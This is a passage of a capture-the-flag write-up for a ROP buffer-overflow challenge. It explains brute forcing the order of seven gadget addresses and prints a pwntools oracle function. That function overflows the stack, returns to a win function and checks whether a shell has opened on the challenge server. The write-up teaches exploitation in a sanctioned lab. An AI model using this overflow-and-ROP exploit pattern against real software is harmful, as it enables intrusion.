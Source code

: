 
## Solution

My solution was brute forcing all permutations of the 7 byte sequences until I got a shell. I assumed that the solution would
be a permutation of the 7, so the number of unique shellcodes we will need to test will be 7! = 5040. Because this is a lot of
inputs to test, we'll want to do some cleaver multithreaded things to make things move along faster.

<a href="https://imgflip.com/i/3wdxff"><img src="https://i.imgflip.com/3wdxff.jpg" title="made at imgflip.com"/></a>

The first step for brute forcing any ctf challenge should be creating an oracle function. If you are not familiar, an oracle function
is should be a very simple function that takes some guess and return some value insicating if that guess was correct. In our case here,
we are going to be guessing the order of the rop chain, so our input should be a list of addresses. The basic idea of the oracle I have 
here is that only if the program doesn't crash or send EOF, then we have found a valid combination.

```python
def oracle(chain, local=True, stay=False):
    p = process('./rop') if local else remote('ctf.umbccd.io', 4100)
    p.recvuntil('?\n')

    """
    Since we only can overwrite the pushed eip and one more dword,
    we need to go one at a time, returning to the tryme function.
    """
    for i in chain:
        p.send('0000111122223333' + p32(i) + p32(e.sym.tryme))

    """
    Once we have our shell code written, then we can ret to the
    win function.
    """
    p.sendline('0000111122223333' + p32(e.sym.win))

    r=False
    try:
        """
        We need to let a moment pass here to let the shellcode
        execute, and hopfully open a new process. If we send
        the echo before this process starts, that input may only
        be passed to the original program.

        This sendline will error out if the rop program crashes.
        """
        time.sleep(0.5)
        p.sendline('echo abc123')

        """
        Here we're just trying to read with a one second timeout.
        If we don't get an EOF error, we probably just got shell.
        """
        if p.recv(1024, 1):
            if stay:
                p.interactive()
            r=True
    except EOFError:
        pass
    finally:
        p.close()

```